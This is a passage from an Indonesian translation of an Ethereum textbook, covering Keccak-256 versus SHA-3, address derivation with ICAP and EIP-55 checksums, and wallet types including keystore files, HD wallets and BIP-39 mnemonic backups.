Namun, selama periode ketika Ethereum dikembangkan, standardisasi NIST belum final. NIST menyesuaikan beberapa parameter Keccak setelah penyelesaian proses standar, yang diduga untuk meningkatkan efisiensinya. Ini terjadi pada saat yang sama ketika pelapor pelanggaran (whistleblower) heroik Edward Snowden mengungkapkan dokumen yang menyiratkan bahwa NIST mungkin telah dipengaruhi secara tidak semestinya oleh National Security Agency (NSA) untuk sengaja melemahkan standar generator angka acak Dual\_EC\_DRBG, yang secara efektif menempatkan *backdoor* di dalam standar generator angka acak tersebut. Hasil dari kontroversi ini adalah reaksi keras terhadap perubahan yang diusulkan dan penundaan yang signifikan dalam standardisasi SHA-3. Pada saat itu, Ethereum Foundation memutuskan untuk mengimplementasikan algoritma Keccak asli, seperti yang diusulkan oleh para penemunya, daripada standar SHA-3 yang dimodifikasi oleh NIST.

> **Meskipun Anda mungkin melihat "SHA-3" disebutkan di seluruh dokumen dan kode Ethereum, banyak jika tidak semua contoh tersebut sebenarnya merujuk pada Keccak-256, bukan standar FIPS-202 SHA-3 yang sudah final.** Perbedaan implementasinya kecil, berkaitan dengan parameter *padding*, tetapi signifikan karena Keccak-256 menghasilkan output hash yang berbeda dari FIPS-202 SHA-3 untuk input yang sama.

### Fungsi Hash Mana yang Saya Gunakan?

Bagaimana Anda bisa tahu jika pustaka perangkat lunak yang Anda gunakan mengimplementasikan FIPS-202 SHA-3 atau Keccak-256, jika keduanya mungkin disebut "SHA-3"?

Cara mudah untuk mengetahuinya adalah dengan menggunakan *test vector*, yaitu output yang diharapkan untuk input tertentu. Tes yang paling umum digunakan untuk fungsi hash adalah input kosong. Jika Anda menjalankan fungsi hash dengan string kosong sebagai input, Anda akan melihat hasil berikut:

`Keccak256("") = c5d2460186f7233c927e7db2dcc703c0e500b653ca82273b7bfad8045d85a470`

`SHA3("") = a7ffc6f8bf1ed76651c14756a061d662f580ff4de43b49fa82d80a4b80f8434a`

Terlepas dari apa nama fungsinya, Anda dapat mengujinya untuk melihat apakah itu Keccak-256 asli atau standar NIST final FIPS-202 SHA-3 dengan menjalankan tes sederhana ini. Ingat, Ethereum menggunakan Keccak-256, meskipun sering disebut SHA-3 dalam kode.

> Karena kebingungan yang diciptakan oleh perbedaan antara fungsi hash yang digunakan di Ethereum (Keccak-256) dan standar yang sudah final (FIP-202 SHA-3), ada upaya yang sedang berlangsung untuk mengganti nama semua instansi `sha3` di semua kode, *opcode*, dan pustaka menjadi `keccak256`. Lihat ERC59 untuk detailnya.

Selanjutnya, mari kita periksa aplikasi pertama Keccak-256 di Ethereum, yaitu untuk menghasilkan alamat Ethereum dari kunci publik.

## Alamat Ethereum

Alamat Ethereum adalah pengidentifikasi unik yang diturunkan dari kunci publik atau kontrak menggunakan fungsi hash satu arah Keccak-256.

Dalam contoh kita sebelumnya, kita mulai dengan kunci privat dan menggunakan perkalian kurva eliptik untuk mendapatkan kunci publik:

**Kunci privat k:**
`k = f8f8a2f43c8376ccb0871305060d7b27b0554d2cc72bccf41b2705608452f315`

**Kunci publik K** (koordinat x dan y digabungkan dan ditampilkan sebagai hex):
`K = 6e145ccef1033dea239875dd00dfb4fee6e3348b84985c92f103444683bae07b83b5c38e5e...`

> Perlu dicatat bahwa kunci publik tidak diformat dengan awalan (hex) `04` saat alamat dihitung.

Kita menggunakan Keccak-256 untuk menghitung hash dari kunci publik ini:

`Keccak256(K) = 2a5bc342ed616b5ba5732269001d3f1ef827552ae1114027bd3ecf1f086ba0f9`

Kemudian kita hanya menyimpan 20 byte terakhir (byte yang paling tidak signifikan), yang merupakan alamat Ethereum kita:

`001d3f1ef827552ae1114027bd3ecf1f086ba0f9`

Paling sering Anda akan melihat alamat Ethereum dengan awalan `0x` yang menunjukkan bahwa mereka dikodekan dalam heksadesimal, seperti ini:

`0x001d3f1ef827552ae1114027bd3ecf1f086ba0f9`

## Format Alamat Ethereum

Alamat Ethereum adalah angka heksadesimal, pengidentifikasi yang diturunkan dari 20 byte terakhir dari hash Keccak-256 dari kunci publik.

Tidak seperti alamat Bitcoin, yang dikodekan di antarmuka pengguna semua klien untuk menyertakan *checksum* bawaan untuk melindungi dari kesalahan pengetikan alamat, alamat Ethereum disajikan sebagai heksadesimal mentah tanpa *checksum* apa pun.

Alasan di balik keputusan itu adalah bahwa alamat Ethereum pada akhirnya akan disembunyikan di balik abstraksi (seperti layanan nama) di lapisan yang lebih tinggi dari sistem dan *checksum* harus ditambahkan di lapisan yang lebih tinggi jika perlu.

Pada kenyataannya, lapisan-lapisan yang lebih tinggi ini dikembangkan terlalu lambat dan pilihan desain ini menyebabkan sejumlah masalah di masa-masa awal ekosistem, termasuk hilangnya dana karena kesalahan pengetikan alamat dan kesalahan validasi input. Selain itu, karena layanan nama Ethereum dikembangkan lebih lambat dari yang diperkirakan, pengkodean alternatif diadopsi dengan sangat lambat oleh pengembang dompet. Kita akan melihat beberapa opsi pengkodean selanjutnya.

### Inter exchange Client Address Protocol (ICAP)

Inter exchange Client Address Protocol (ICAP) adalah pengkodean alamat Ethereum yang sebagian kompatibel dengan pengkodean International Bank Account Number (IBAN), menawarkan pengkodean yang serbaguna, memiliki *checksum*, dan dapat dioperasikan untuk alamat Ethereum. Alamat ICAP dapat mengkodekan alamat Ethereum atau nama umum yang terdaftar di registri nama Ethereum. Anda dapat membaca lebih lanjut tentang ICAP di Wiki Ethereum.

IBAN adalah standar internasional untuk mengidentifikasi nomor rekening bank, sebagian besar digunakan untuk transfer kawat. Ini diadopsi secara luas di Area Pembayaran Euro Tunggal Eropa (SEPA) dan sekitarnya. IBAN adalah layanan terpusat dan sangat teregulasi. ICAP adalah implementasi yang terdesentralisasi namun kompatibel untuk alamat Ethereum.

IBAN terdiri dari string hingga 34 karakter alfanumerik (tidak peka huruf besar-kecil) yang terdiri dari kode negara, *checksum*, dan pengidentifikasi rekening bank (yang spesifik untuk negara).

ICAP menggunakan struktur yang sama dengan memperkenalkan kode negara non-standar, "XE," yang merupakan singkatan dari "Ethereum," diikuti oleh *checksum* dua karakter dan tiga kemungkinan variasi pengenal akun:

  * **Direct**
    Sebuah integer *big-endian base-36* yang terdiri dari hingga 30 karakter alfanumerik, mewakili 155 bit paling tidak signifikan dari sebuah alamat Ethereum. Karena pengkodean ini kurang dari 160 bit penuh dari alamat Ethereum umum, ini hanya berfungsi untuk alamat Ethereum yang dimulai dengan satu atau lebih byte nol. Keuntungannya adalah kompatibel dengan IBAN, dalam hal panjang bidang dan *checksum*.
    Contoh: `XE60HAMICDXSV5QXVJA7TJW47Q9CHWKJD` (panjang 33 karakter).

  * **Basic**
    Sama seperti pengkodean Direct, kecuali panjangnya 31 karakter. Hal ini memungkinkannya untuk mengkodekan alamat Ethereum apa pun, tetapi membuatnya tidak kompatibel dengan validasi bidang IBAN.
    Contoh: `XE18CHDJBPLTBCJ03FE9O2NS0BPOJVQCU2P` (panjang 35 karakter).

  * **Indirect**
    Mengkodekan pengidentifikasi yang mengarah ke alamat Ethereum melalui penyedia registri nama. Ini menggunakan 16 karakter alfanumerik, terdiri dari pengidentifikasi aset (mis., ETH), layanan nama (mis., XREG), dan nama 9 karakter yang dapat dibaca manusia (mis., KITTYCATS).
    Contoh: `XE##ETHXREGKITTYCATS` (panjang 20 karakter), di mana `##` harus diganti dengan dua karakter *checksum* yang dihitung.

Kita dapat menggunakan alat baris perintah `helpeth` untuk membuat alamat ICAP. Mari kita coba dengan kunci privat contoh kita (diawali dengan `0x` dan diteruskan sebagai parameter ke `helpeth`):

```bash
$ helpeth keyDetails \
 -p 0xf8f8a2f43c8376ccb0871305060d7b27b0554d2cc72bccf41b2705608452f315

Address: 0x001d3f1ef827552ae1114027bd3ecf1f086ba0f9
ICAP: XE60 HAMI CDXS V5QX VJA7 TJW4 7Q9C HWKJ D
Public key: 0x6e145ccef1033dea239875dd00dfb4fee6e3348b84985c92f103444683bae07b...
```

Perintah `helpeth` membuat alamat Ethereum heksadesimal serta alamat ICAP untuk kita. Alamat ICAP untuk kunci contoh kita adalah:
`XE60HAMICDXSV5QXVJA7TJW47Q9CHWKJD`

Karena alamat Ethereum contoh kita kebetulan dimulai dengan byte nol, ia dapat dikodekan menggunakan metode pengkodean ICAP Direct yang valid dalam format IBAN. Anda bisa tahu karena panjangnya 33 karakter.

Jika alamat kita tidak dimulai dengan nol, itu akan dikodekan dengan pengkodean Basic, yang akan memiliki panjang 35 karakter dan tidak valid sebagai IBAN.

> **Peluang alamat Ethereum apa pun dimulai dengan byte nol adalah 1 banding 256.** Untuk menghasilkan yang seperti itu, rata-rata akan membutuhkan 256 percobaan dengan 256 kunci privat acak yang berbeda sebelum kita menemukan satu yang berfungsi sebagai alamat ICAP yang dikodekan "Direct" yang kompatibel dengan IBAN.

Saat ini, ICAP sayangnya hanya didukung oleh beberapa dompet.

### Pengkodean Hex dengan Checksum dalam Kapitalisasi (EIP-55)

Karena lambatnya penerapan ICAP dan layanan nama, sebuah standar diusulkan oleh Ethereum Improvement Proposal 55 (EIP-55). EIP-55 menawarkan *checksum* yang kompatibel ke belakang untuk alamat Ethereum dengan memodifikasi kapitalisasi alamat heksadesimal. Idenya adalah bahwa alamat Ethereum tidak peka huruf besar-kecil dan semua dompet seharusnya menerima alamat Ethereum yang diekspresikan dalam karakter huruf besar atau kecil, tanpa perbedaan interpretasi.

Dengan memodifikasi kapitalisasi karakter alfabet dalam alamat, kita dapat menyampaikan *checksum* yang dapat digunakan untuk melindungi integritas alamat terhadap kesalahan pengetikan atau pembacaan. Dompet yang tidak mendukung *checksum* EIP-55 hanya mengabaikan fakta bahwa alamat tersebut mengandung kapitalisasi campuran, tetapi yang mendukungnya dapat memvalidasinya dan mendeteksi kesalahan dengan akurasi 99,986%.

Pengkodean kapitalisasi campuran ini halus dan Anda mungkin tidak menyadarinya pada awalnya. Alamat contoh kita adalah:
`0x001d3f1ef827552ae1114027bd3ecf1f086ba0f9`

Dengan *checksum* kapitalisasi campuran EIP-55, menjadi:
`0x001d3F1ef827552Ae1114027BD3ECF1f086bA0F9`

Bisakah Anda melihat perbedaannya? Beberapa karakter alfabet (A–F) dari alfabet pengkodean heksadesimal sekarang menjadi huruf besar, sementara yang lain huruf kecil.

EIP-55 cukup sederhana untuk diimplementasikan. Kita mengambil hash Keccak-256 dari alamat heksadesimal huruf kecil. Hash ini bertindak sebagai sidik jari digital dari alamat, memberi kita *checksum* yang nyaman. Setiap perubahan kecil pada input (alamat) akan menyebabkan perubahan besar pada hash yang dihasilkan (*checksum*), memungkinkan kita mendeteksi kesalahan secara efektif. Hash dari alamat kita kemudian dikodekan dalam kapitalisasi alamat itu sendiri.

Mari kita uraikan, langkah demi langkah:

1.  Hash alamat huruf kecil, tanpa awalan `0x`:
    `Keccak256("001d3f1ef827552ae1114027bd3ecf1f086ba0f9") = 23a69c1653e4ebbb619b0b2cb8a9bad49892a8b9695d9a19d8f673ca991deae1`

2.  Kapitalkan setiap karakter alfabet alamat jika digit heksadesimal yang sesuai dari hash lebih besar dari atau sama dengan `0x8`. Ini lebih mudah ditunjukkan jika kita menyejajarkan alamat dan hash:

    ```
    Alamat: 001d3f1ef827552ae1114027bd3ecf1f086ba0f9
    Hash  : 23a69c1653e4ebbb619b0b2cb8a9bad49892a8b9...
    ```

    Alamat kita mengandung karakter alfabet `d` di posisi keempat. Karakter keempat dari hash adalah `6`, yang lebih kecil dari 8. Jadi, kita biarkan `d` tetap huruf kecil. Karakter alfabet berikutnya di alamat kita adalah `f`, di posisi keenam. Karakter keenam dari hash heksadesimal adalah `c`, yang lebih besar dari 8. Oleh karena itu, kita mengkapitalkan `F` di alamat, dan seterusnya. Seperti yang Anda lihat, kita hanya menggunakan 20 byte pertama (40 karakter hex) dari hash sebagai *checksum*, karena kita hanya memiliki 20 byte (40 karakter hex) di alamat untuk dikapitalkan dengan tepat.

Periksa sendiri alamat kapitalisasi campuran yang dihasilkan dan lihat apakah Anda dapat mengetahui karakter mana yang dikapitalkan dan karakter mana yang sesuai dengannya di hash alamat:

```
Alamat: 001d3F1ef827552Ae1114027BD3ECF1f086bA0F9
Hash  : 23a69c1653e4ebbb619b0b2cb8a9bad49892a8b9...
```

#### Mendeteksi kesalahan pada alamat yang dikodekan EIP-55

Sekarang, mari kita lihat bagaimana alamat EIP-55 akan membantu kita menemukan kesalahan. Mari kita asumsikan kita telah mencetak alamat Ethereum, yang dikodekan EIP-55:
`0x001d3F1ef827552Ae1114027BD3ECF1f086bA0F9`

Sekarang mari kita buat kesalahan dasar dalam membaca alamat itu. Karakter sebelum yang terakhir adalah huruf `F` besar. Untuk contoh ini, mari kita asumsikan kita salah membacanya sebagai huruf `E` besar, dan kita mengetik alamat berikut (yang salah) ke dompet kita:
`0x001d3F1ef827552Ae1114027BD3ECF1f086bA0E9`

Untungnya, dompet kita sesuai dengan EIP-55\! Dompet memperhatikan kapitalisasi campuran dan mencoba memvalidasi alamat tersebut. Dompet mengubahnya menjadi huruf kecil, dan menghitung hash *checksum*:

`Keccak256("001d3f1ef827552ae1114027bd3ecf1f086ba0e9") = 5429b5d9460122fb4b11af9cb88b7bb76d8928862e0a57d46dd18dd8e08a6927`

Seperti yang Anda lihat, meskipun alamat hanya berubah satu karakter (faktanya, hanya satu bit, karena `e` dan `f` berbeda satu bit), hash alamat telah berubah secara radikal. Itulah properti dari fungsi hash yang membuatnya sangat berguna untuk *checksum*\!

Sekarang, mari kita sejajarkan keduanya dan periksa kapitalisasinya:

```
Alamat: 001d3F1ef827552Ae1114027BD3ECF1f086bA0E9
Hash  : 5429b5d9460122fb4b11af9cb88b7bb76d892886...
```

Semuanya salah\! Beberapa karakter alfabet dikapitalkan secara tidak benar. Ingat bahwa kapitalisasi adalah pengkodean dari *checksum* yang benar.

Kapitalisasi alamat yang kita masukkan tidak cocok dengan *checksum* yang baru saja dihitung, yang berarti ada sesuatu yang telah berubah di alamat, dan sebuah kesalahan telah terjadi.

## Kesimpulan

Dalam bab ini kami memberikan survei singkat tentang kriptografi kunci publik dan berfokus pada penggunaan kunci publik dan privat di Ethereum serta penggunaan alat kriptografi, seperti fungsi hash, dalam pembuatan dan verifikasi alamat Ethereum. Kami juga melihat tanda tangan digital dan bagaimana mereka dapat menunjukkan kepemilikan kunci privat tanpa mengungkapkan kunci privat tersebut. Di Bab 5, kita akan menyatukan ide-ide ini dan melihat bagaimana dompet dapat digunakan untuk mengelola koleksi kunci.

---

# BAB 5
## Dompet (Wallets)

Kata “dompet” atau *"wallet"* digunakan untuk mendeskripsikan beberapa hal yang berbeda di Ethereum.

Pada tingkat tinggi, **dompet adalah aplikasi perangkat lunak yang berfungsi sebagai antarmuka pengguna utama ke Ethereum**. Dompet mengontrol akses ke uang pengguna, mengelola kunci dan alamat, melacak saldo, serta membuat dan menandatangani transaksi. Selain itu, beberapa dompet Ethereum juga dapat berinteraksi dengan kontrak, seperti token ERC20.

Lebih sempit lagi, dari perspektif seorang pemrogram, kata dompet merujuk pada **sistem yang digunakan untuk menyimpan dan mengelola kunci pengguna**. Setiap dompet memiliki komponen manajemen kunci. Bagi beberapa dompet, hanya itu saja yang ada. Dompet lain adalah bagian dari kategori yang jauh lebih luas, yaitu *browser*, yang merupakan antarmuka untuk aplikasi terdesentralisasi berbasis Ethereum, atau DApps, yang akan kita periksa lebih detail di Bab 12. Tidak ada garis pemisah yang jelas antara berbagai kategori yang digabungkan di bawah istilah dompet.

Dalam bab ini kita akan melihat dompet sebagai wadah untuk kunci privat, dan sebagai sistem untuk mengelola kunci-kunci ini.

### Tinjauan Teknologi Dompet

Di bagian ini kami merangkum berbagai teknologi yang digunakan untuk membangun dompet Ethereum yang ramah pengguna, aman, dan fleksibel.

Salah satu pertimbangan utama dalam merancang dompet adalah menyeimbangkan **kenyamanan dan privasi**. Dompet Ethereum yang paling nyaman adalah yang memiliki satu kunci privat dan alamat yang Anda gunakan kembali untuk semuanya. Sayangnya, solusi seperti itu adalah mimpi buruk privasi, karena siapa pun dapat dengan mudah melacak dan menghubungkan semua transaksi Anda. Menggunakan kunci baru untuk setiap transaksi adalah yang terbaik untuk privasi, tetapi menjadi sangat sulit untuk dikelola. Keseimbangan yang tepat sulit dicapai, tetapi itulah mengapa desain dompet yang baik sangat penting.

Kesalahpahaman umum tentang Ethereum adalah bahwa dompet Ethereum berisi ether atau token. Faktanya, secara tegas, **dompet hanya menyimpan kunci**. Ether atau token lainnya dicatat di blockchain Ethereum. Pengguna mengontrol token di jaringan dengan menandatangani transaksi menggunakan kunci di dompet mereka. Dalam arti tertentu, **dompet Ethereum adalah sebuah gantungan kunci**. Meskipun demikian, mengingat bahwa kunci yang dipegang oleh dompet adalah satu-satunya hal yang diperlukan untuk mentransfer ether atau token kepada orang lain, dalam praktiknya perbedaan ini tidak terlalu relevan. Perbedaan ini menjadi penting dalam mengubah pola pikir dari berurusan dengan sistem terpusat perbankan konvensional (di mana hanya Anda, dan bank, yang dapat melihat uang di rekening Anda, dan Anda hanya perlu meyakinkan bank bahwa Anda ingin memindahkan dana untuk melakukan transaksi) ke sistem terdesentralisasi platform blockchain (di mana semua orang dapat melihat saldo ether sebuah akun, meskipun mereka mungkin tidak tahu siapa pemilik akun tersebut, dan semua orang perlu diyakinkan bahwa pemilik ingin memindahkan dana agar transaksi dapat diberlakukan). Dalam praktiknya ini berarti ada cara independen untuk memeriksa saldo akun, tanpa memerlukan dompetnya. Selain itu, Anda dapat memindahkan penanganan akun Anda dari dompet saat ini ke dompet yang berbeda, jika Anda mulai tidak menyukai aplikasi dompet yang Anda gunakan pada awalnya.

> Dompet Ethereum berisi kunci, bukan ether atau token. Dompet ibarat gantungan kunci yang berisi pasangan kunci privat dan publik. Pengguna menandatangani transaksi dengan kunci privat, dengan demikian membuktikan bahwa mereka memiliki ether tersebut. Ether disimpan di blockchain.

Ada dua jenis utama dompet, dibedakan berdasarkan apakah kunci yang dikandungnya saling berhubungan atau tidak.

Tipe pertama adalah **dompet non-deterministik**, di mana setiap kunci dibuat secara independen dari nomor acak yang berbeda. Kunci-kunci tersebut tidak saling berhubungan. Jenis dompet ini juga dikenal sebagai **dompet JBOK**, dari frasa “Just a Bunch of Keys” (Hanya Sekumpulan Kunci).

Tipe kedua adalah **dompet deterministik**, di mana semua kunci diturunkan dari satu kunci utama tunggal, yang dikenal sebagai **seed**. Semua kunci dalam jenis dompet ini saling berhubungan dan dapat dibuat kembali jika seseorang memiliki *seed* asli. Ada sejumlah metode derivasi kunci yang berbeda yang digunakan dalam dompet deterministik. Metode derivasi yang paling umum digunakan menggunakan struktur seperti pohon, seperti yang dijelaskan dalam “Dompet Deterministik Hirarkis (BIP-32/BIP-44)” di halaman 82.

Untuk membuat dompet deterministik sedikit lebih aman terhadap kecelakaan kehilangan data, seperti ponsel Anda dicuri atau jatuh ke toilet, *seed* sering dikodekan sebagai daftar kata (dalam bahasa Inggris atau bahasa lain) untuk Anda tulis dan gunakan jika terjadi kecelakaan. Ini dikenal sebagai **kata-kata kode mnemonic** dompet. Tentu saja, jika seseorang mendapatkan kata-kata kode mnemonic Anda, maka mereka juga dapat membuat ulang dompet Anda dan dengan demikian mendapatkan akses ke ether dan kontrak pintar Anda. Oleh karena itu, berhati-hatilah dengan daftar kata pemulihan Anda\! **Jangan pernah menyimpannya secara elektronik**, dalam sebuah file, di komputer atau ponsel Anda. Tuliskan di atas kertas dan simpan di tempat yang aman dan terlindungi.

Beberapa bagian berikutnya memperkenalkan masing-masing teknologi ini pada tingkat tinggi.

### Dompet Non-Deterministik (Acak)

Di dompet Ethereum pertama (yang diproduksi untuk pra-penjualan Ethereum), setiap file dompet menyimpan satu kunci privat yang dibuat secara acak. Dompet semacam itu digantikan dengan dompet deterministik karena dompet "gaya lama" ini dalam banyak hal lebih rendah. Misalnya, dianggap praktik yang baik untuk menghindari penggunaan kembali alamat Ethereum sebagai bagian dari memaksimalkan privasi Anda saat menggunakan Ethereum—yaitu, menggunakan alamat baru (yang memerlukan kunci privat baru) setiap kali Anda menerima dana. Anda bisa melangkah lebih jauh dan menggunakan alamat baru untuk setiap transaksi, meskipun ini bisa menjadi mahal jika Anda banyak berurusan dengan token. Untuk mengikuti praktik ini, dompet non-deterministik perlu secara teratur menambah daftar kuncinya, yang berarti Anda perlu membuat cadangan secara teratur. Jika Anda kehilangan data (kegagalan disk, kecelakaan minuman, ponsel dicuri) sebelum Anda berhasil mencadangkan dompet Anda, Anda akan kehilangan akses ke dana dan kontrak pintar Anda. Dompet non-deterministik "tipe 0" adalah yang paling sulit untuk ditangani, karena mereka membuat file dompet baru untuk setiap alamat baru secara “just in time”.

Meskipun demikian, banyak klien Ethereum (termasuk geth) menggunakan file **keystore**, yang merupakan file berenkode JSON yang berisi satu kunci privat (yang dibuat secara acak), dienkripsi dengan *passphrase* untuk keamanan ekstra. Isi file JSON terlihat seperti ini:

```json
{
"address": "001d3f1ef827552ae1114027bd3ecf1f086ba0f9",
"crypto": {
"cipher": "aes-128-ctr",
"ciphertext":
"233a9f4d236ed0c13394b504b6da5df02587c8bf1ad8946f6f2b58f055507ece",
"cipherparams": {
"iv": "d10c6ec5bae81b6cb9144de81037fa15"
},
"kdf": "scrypt",
"kdfparams": {
"dklen": 32,
"n": 262144,
"p": 1,
"r": 8,
"salt":
"99d37a47c7c9429c66976f643f386a61b78b97f3246adca89abe4245d2788407"
},
"mac": "594c8df1c8ee0ded8255a50caf07e8c12061fd859f4b7c76ab704b17c957e842"
},
"id": "4fcb2ba4-ccdb-424f-89d5-26cce304bf9c",
"version": 3
}
```

Format keystore menggunakan **key derivation function (KDF)**, juga dikenal sebagai algoritma peregangan kata sandi (*password stretching*), yang melindungi dari serangan *brute-force*, kamus, dan *rainbow table*. Secara sederhana, kunci privat tidak dienkripsi oleh *passphrase* secara langsung. Sebaliknya, *passphrase* diregangkan, dengan melakukan hashing berulang kali. Fungsi hashing diulang sebanyak 262.144 putaran, yang dapat dilihat di JSON keystore sebagai parameter `crypto.kdfparams.n`. Penyerang yang mencoba melakukan *brute-force* pada *passphrase* harus menerapkan 262.144 putaran hashing untuk setiap *passphrase* yang dicoba, yang memperlambat serangan secukupnya untuk membuatnya tidak mungkin dilakukan untuk *passphrase* dengan kompleksitas dan panjang yang memadai.

Ada sejumlah pustaka perangkat lunak yang dapat membaca dan menulis format keystore, seperti pustaka JavaScript `keythereum`.

> Penggunaan dompet non-deterministik tidak disarankan untuk apa pun selain tes sederhana. Dompet ini terlalu merepotkan untuk dicadangkan dan digunakan untuk situasi apa pun kecuali yang paling dasar. Sebaliknya, gunakan dompet HD berbasis standar industri dengan *seed* mnemonic untuk pencadangan.

### Dompet Deterministik (Berbasis Seed)

Dompet deterministik atau "berbasis *seed*" adalah dompet yang berisi kunci privat yang semuanya diturunkan dari satu kunci utama tunggal, atau **seed**. *Seed* adalah angka yang dihasilkan secara acak yang dikombinasikan dengan data lain, seperti nomor indeks atau “kode rantai” (*chain code*) (lihat “Kunci publik dan privat yang diperluas” di halaman 93), untuk mendapatkan sejumlah kunci privat.

Dalam dompet deterministik, *seed* sudah cukup untuk memulihkan semua kunci yang diturunkan, dan oleh karena itu satu cadangan tunggal, pada saat pembuatan, sudah cukup untuk mengamankan semua dana dan kontrak pintar di dalam dompet. *Seed* juga cukup untuk ekspor atau impor dompet, memungkinkan migrasi yang mudah dari semua kunci di antara implementasi dompet yang berbeda. Desain ini membuat keamanan *seed* menjadi yang paling penting, karena hanya *seed* yang diperlukan untuk mendapatkan akses ke seluruh dompet. Di sisi lain, kemampuan untuk memfokuskan upaya keamanan pada satu bagian data dapat dilihat sebagai keuntungan.

### Dompet Deterministik Hirarkis (BIP-32/BIP-44)

Dompet deterministik dikembangkan untuk memudahkan penurunan banyak kunci dari satu *seed* tunggal. Saat ini, bentuk paling canggih dari dompet deterministik adalah **dompet deterministik hirarkis (HD)** yang didefinisikan oleh standar BIP-32 Bitcoin. Dompet HD berisi kunci yang diturunkan dalam struktur pohon, sedemikian rupa sehingga kunci induk dapat menurunkan urutan kunci anak, yang masing-masing dapat menurunkan urutan kunci cucu, dan seterusnya. Struktur pohon ini diilustrasikan pada Gambar 5-1.

\<p align="center"\>
  \
\</p\>

Dompet HD menawarkan beberapa keuntungan utama dibandingkan dompet deterministik yang lebih sederhana. Pertama, **struktur pohon dapat digunakan untuk mengekspresikan makna organisasi tambahan**, seperti ketika cabang subkunci tertentu digunakan untuk menerima pembayaran masuk dan cabang yang berbeda digunakan untuk menerima kembalian dari pembayaran keluar. Cabang kunci juga dapat digunakan dalam pengaturan perusahaan, mengalokasikan cabang yang berbeda ke departemen, anak perusahaan, fungsi spesifik, atau kategori akuntansi.

Keuntungan kedua dari dompet HD adalah bahwa **pengguna dapat membuat urutan kunci publik tanpa memiliki akses ke kunci privat yang sesuai**. Ini memungkinkan dompet HD digunakan di server yang tidak aman atau dalam kapasitas hanya-tonton (*watch-only*) atau hanya-terima (*receive-only*), di mana dompet tidak memiliki kunci privat yang dapat membelanjakan dana.

### Seed dan Kode mnemonic (BIP-39)

Ada banyak cara untuk mengkodekan kunci privat untuk pencadangan dan pemulihan yang aman. Metode yang saat ini lebih disukai adalah menggunakan **urutan kata** yang, bila diambil bersama-sama dalam urutan yang benar, dapat secara unik membuat ulang kunci privat. Ini kadang-kadang dikenal sebagai **mnemonic**, dan pendekatan ini telah distandarisasi oleh BIP-39. Saat ini, banyak dompet Ethereum (serta dompet untuk mata uang kripto lainnya) menggunakan standar ini, dan dapat mengimpor dan mengekspor *seed* untuk pencadangan dan pemulihan menggunakan mnemonic yang dapat dioperasikan.

Untuk melihat mengapa pendekatan ini menjadi populer, mari kita lihat sebuah contoh:

```
FCCF1AB3329FD5DA3DA9577511F8F137

wolf juice proud gown wool unfair
wall cliff insect more detail hub
```

Secara praktis, kemungkinan kesalahan saat menulis urutan heksadesimal sangat tinggi. Sebaliknya, daftar kata yang diketahui cukup mudah untuk ditangani, terutama karena ada tingkat redundansi yang tinggi dalam penulisan kata (terutama kata-kata bahasa Inggris). Jika “inzect” tercatat secara tidak sengaja, dapat dengan cepat ditentukan, saat pemulihan dompet diperlukan, bahwa “inzect” bukan kata bahasa Inggris yang valid dan bahwa “insect” harus digunakan sebagai gantinya. Kita berbicara tentang menulis representasi *seed* karena itu adalah praktik yang baik saat mengelola dompet HD: *seed* diperlukan untuk memulihkan dompet jika terjadi kehilangan data (baik karena kecelakaan atau pencurian), jadi menyimpan cadangan sangat bijaksana. Namun, *seed* harus dijaga sangat privat, jadi cadangan digital harus dihindari dengan hati-hati; oleh karena itu saran sebelumnya untuk mencadangkan dengan pena dan kertas.

Singkatnya, penggunaan daftar kata pemulihan untuk mengkodekan *seed* untuk dompet HD menjadi cara termudah untuk mengekspor, menyalin, mencatat di atas kertas, membaca tanpa kesalahan, dan mengimpor satu set kunci privat ke dompet lain dengan aman.

### Praktik Terbaik Dompet (Wallet Best Practices)

Seiring dengan matangnya teknologi dompet mata uang kripto, standar industri umum tertentu telah muncul yang membuat dompet dapat dioperasikan secara luas, mudah digunakan, aman, dan fleksibel. Standar-standar ini juga memungkinkan dompet untuk menurunkan kunci untuk berbagai mata uang kripto yang berbeda, semuanya dari satu mnemonic tunggal. Standar umum ini adalah:

  * Kata-kata kode mnemonic, berdasarkan **BIP-39**
  * Dompet HD, berdasarkan **BIP-32**
  * Struktur dompet HD multiguna, berdasarkan **BIP-43**
  * Dompet multikurensi dan multiakun, berdasarkan **BIP-44**

Standar-standar ini mungkin berubah atau menjadi usang oleh perkembangan di masa depan, tetapi untuk saat ini mereka membentuk seperangkat teknologi yang saling terkait yang telah menjadi standar dompet de facto untuk sebagian besar platform blockchain dan mata uang kripto mereka.

Standar-standar tersebut telah diadopsi oleh berbagai macam dompet perangkat lunak dan perangkat keras, membuat semua dompet ini dapat dioperasikan. Pengguna dapat mengekspor mnemonic yang dibuat di salah satu dompet ini dan mengimpornya ke dompet lain, memulihkan semua kunci dan alamat.

Beberapa contoh dompet perangkat lunak yang mendukung standar ini termasuk (diurutkan berdasarkan abjad) **Jaxx, MetaMask, MyCrypto, dan MyEtherWallet (MEW)**. Contoh dompet perangkat keras yang mendukung standar ini termasuk **Keepkey, Ledger, dan Trezor**.

Bagian-bagian berikut memeriksa masing-masing teknologi ini secara detail.

> Jika Anda mengimplementasikan dompet Ethereum, dompet tersebut harus dibangun sebagai dompet HD, dengan *seed* yang dikodekan sebagai kata kode mnemonic untuk pencadangan, mengikuti standar BIP-32, BIP-39, BIP-43, dan BIP-44, seperti yang dijelaskan di bagian berikut.

### Kata-Kata Kode mnemonic (BIP-39)

Kata-kata kode mnemonic adalah urutan kata yang mengkodekan nomor acak yang digunakan sebagai *seed* untuk menurunkan dompet deterministik. Urutan kata sudah cukup untuk membuat ulang *seed*, dan dari sana membuat ulang dompet dan semua kunci yang diturunkan. Aplikasi dompet yang mengimplementasikan dompet deterministik dengan kata-kata mnemonic akan menunjukkan kepada pengguna urutan 12 hingga 24 kata saat pertama kali membuat dompet. Urutan kata itu adalah cadangan dompet, dan dapat digunakan untuk memulihkan dan membuat ulang semua kunci di aplikasi dompet yang sama atau yang kompatibel. Seperti yang kami jelaskan sebelumnya, daftar kata mnemonic memudahkan pengguna untuk mencadangkan dompet, karena mudah dibaca dan disalin dengan benar.

